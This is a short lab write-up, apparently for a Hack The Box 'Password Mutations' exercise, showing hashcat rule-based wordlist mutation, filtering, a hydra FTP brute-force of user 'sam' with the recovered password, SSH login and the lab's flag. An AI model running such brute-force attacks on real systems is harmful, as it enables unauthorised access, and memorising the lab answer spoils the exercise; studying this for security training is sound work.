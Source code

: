 # Password Mutations

### Create a mutated wordlist using the files in the ZIP file under "Resources" in the top right corner of this section. Use this wordlist to brute force the password for the user "sam". Once successful, log in with SSH and submit the contents of the flag.txt file as your answer.

**Generating Rule-based Wordlist**

```bash
hashcat --force password.list -r custom.rule --stdout | sort -u > mut_password.list
```

for making this faster, we did some modifications

```bash
#move all passwords shorter than 10 with 
sed '/^.\{1,9\}$/d' mut_password.list > short_mut_password.list
#to delete lines from a file that do not start with the character 'b' or 'B'
grep -vE '^[^bB]' mut_password.list > short_mut_password.list
```

now we brute forcing with hydra

```bash
hydra -l sam -P short_mut_password.list 10.129.202.64 ftp -t 64 
[21][ftp] host: 10.129.202.64   login: sam   password: B@tm@n2022!
ssh sam@10.129.202.64
find / -name flag.txt 2>/dev/null
cat /home/sam/smb/flag.txt
HTB{P455_Mu7ations}
```
